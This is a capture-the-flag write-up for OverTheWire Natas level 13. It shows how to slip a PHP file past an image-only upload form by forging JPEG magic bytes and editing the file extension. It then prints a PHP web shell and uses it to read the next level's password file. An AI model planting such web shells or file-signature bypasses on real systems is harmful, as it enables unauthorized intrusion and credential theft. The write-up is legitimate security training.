 ![natas13_01.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_01.png)

This time we will be greeted with a similar page but a new message letting us know that the form only accepts image files now.

![natas13_02.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_02.png)

The code hasn't changed much from the previous level. However, the `exif` conditional is new (Exif data is basically metadata, you can read more about it [here](https://en.wikipedia.org/wiki/Exif) and [here](https://www.adobe.com/au/creativecloud/file-types/image/raster/exif-file.html)).

![natas13_03.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_03.png)

The question we want to know the answer to is: Can we trick this form to accept a `php` file?

First, how do we determine the type of a file? 

This is done through `file signatures` or `magic numbers`. These are the first few bytes at the start of a file.

![natas13_04.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_04.png)

When creating a new file it defaults as empty and it recognizes that we placed ASCII text inside it when we do so. What if we change the `file signature`?

Gary Kessler has maintained a large list of file signatures that you can find [here](https://www.garykessler.net/library/file_sigs.html). Let's look for the signature of a `jpg` file.

![natas13_05.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_05.png)

The first four hexadecimal values are the file signature, what comes after isn't necessary for our current use case so, we'll only deal with these first four bytes for now.

If we open up the file in `hexeditor` or some other `hexdump` editor we can add these values to the start of the file. To add and delete bytes in `hexeditor` we can open the file like this: `hexeditor -b new_file`.

![natas13_06.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_06.png)

Using `Ctrl+a` we can add bytes from the location of the cursor.

![natas13_07.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_07.png)

Now, we can add the signature we found with an extra null byte at the end - to separate the signature from the file data (or payload).

![natas13_08.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_08.png)

Let's save and check the file's type.

![natas13_09.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_09.png)

Cool! Now it thinks our file is an image. 

Let's manipulate the file from the previous level to render the output of the `phpinfo()` function to the page.

![natas13_10.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_10.png)

Instead of using `burpsuite` this time, remember when I mentioned that `inspector` can be used with misconfigured sites as a vector to pull off attacks? In this case, we'll just change the file extension through `inspect element`.

First, add the file so it's ready to be uploaded and open `inspect element`. Find where the filename value has been calculated and change the extension to `php`. You could just change the whole filename too if you'd like but, remember that the `php` code changes the filename anyway so only the extension matters here.

![natas13_11.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_11.png)

Upload success!

![natas13_12.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_12.png)

PHP execution success! Note the question marks, that's the file signature. `PHP` doesn't know how to handle that but, that's ok!

![natas13_13.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_13.png)

Now we have two options, we can use `system` again, or we could use a `webshell`. The `webshell` will allow us to make subsequent request to the machine by using a parameter that we can set by using the `php` super global variable: `$_GET`.

```php
<?php system($_GET['cmd']); ?>
```

Once the file is uploaded, this allows us to specify commands in the `URL` like this:

```
upload/filename.php?cmd=<command>
```

Let's create the file.

![natas13_14.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_14.png)

Prepare to upload the file.

![natas13_15.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_15.png)

Upload.

![natas13_16.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_16.png)

Now, access the file.

![natas13_17.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_17.png)

Notice that the error mentions that system cannot run because of a `blank command`. Let's give it one to run by appending: `?cmd=cat /etc/natas_webpass/natas14`.
 
To explain, `?` is the `URL` parameter indicator. This means that the next word will be an argument to the script. Because we specified `cmd` with `$_GET`, our script will execute whatever command we give to the `cmd` parameter through the `system` function. It essentially functions like a terminal session (although much more limited), however, seeing as it's commands are performed through a website (not directly on the command line) we call it a `webshell`.

![natas13_18.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_18.png)

If we wanted to, we could also have surrounded the `php` with the `<pre></pre>` tags. Which would make the readout much cleaner.

```php
<pre>
	<?php system($_GET['bloop']); ?>
</pre>
```

![natas13_19.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_19.png)

The `<pre>` tags will also format an output for something like `ls -lah` in a nice, clean and predictable format. Otherwise, it'll be a complete mess and a headache to parse.

For example:

![natas13_20.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_20.png)

versus

![natas13_21.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_21.png)

---

# The Python Way

There is always a way with `python`.

![natas13_22.png](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/overthewire/natas/images/natas13_22.png)

